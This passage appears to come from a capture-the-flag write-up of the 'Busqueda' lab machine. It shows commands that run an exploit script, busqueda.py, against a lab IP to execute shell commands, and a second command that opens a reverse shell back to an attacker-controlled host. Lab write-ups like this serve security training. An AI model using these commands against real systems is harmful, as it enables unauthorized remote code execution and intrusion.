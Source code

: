 ```python

main()
```

By specifying a target, we can execute commands in a non-interactive shell.

```bash
python3 busqueda.py -t 10.129.16.142
```

<img src="/assets/img/busqueda/Untitled 5.png" alt="Untitled 5.png" style="width:800px;">

We have the option to send us a reverse shell and transform it into a pseudo interactive TTY.

```bash
python3 busqueda.py -t 10.129.16.142 -r --lhost 10.10.14.112
```

<img src="/assets/img/busqueda/Untitled 6.png" alt="Untitled 6.png" style="width:800px;">

<img src="/assets/img/busqueda/Untitled 7.png" alt="Untitled 7.png" style="width:800px;">